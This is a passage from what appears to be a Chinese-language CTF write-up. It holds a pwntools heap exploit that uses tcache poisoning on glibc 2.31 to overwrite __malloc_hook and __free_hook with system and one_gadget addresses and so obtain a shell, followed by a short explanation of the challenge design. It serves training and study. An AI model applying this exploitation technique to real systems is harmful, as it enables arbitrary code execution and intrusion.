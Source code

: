 ```python
add(0x30)#4 -2 
add(0x30)#5
edit(5,p64(0)+p64(0x21)+p64(0)*2+p64(0)+p64(0x21))

add(0x10)#6
add(0x10)#7
dele(7)
dele(6)
edit(6,p64(libcbase+libc.sym['__malloc_hook']))
add(0x10)#8-6
add(0x10)#9 f

######### not used
add(0x10)#10
add(0x10)#11
dele(11)
dele(10)
edit(10,p64(libcbase+libc.sym['__memalign_hook']))
add(0x10)#12
add(0x10)#13
one=[0xe6c7e,0xe6c81,0xe6c84]
edit(13,p64(libcbase+one[0])+p64(0x21))
########### not used


add(0x10)#14
add(0x10)#15
dele(15)
dele(14)
edit(14,p64(libcbase+libc.sym['system']))
add(0x10)
#gdb.attach(sh)
dele(9) # free_hook -> system
gdb.attach(sh)
add(str(binsh-1))
log.success(hex(libcbase))
sh.interactive()
```

## 出题思路

环境2.31

1. malloc/free hook的检测（edit之后检测）
2. tcache attack构造tcache -> system, 再构造malloc/free hook->system,从而触发shell

# PWN -> tanchishe (栈溢出)

## 题目分析
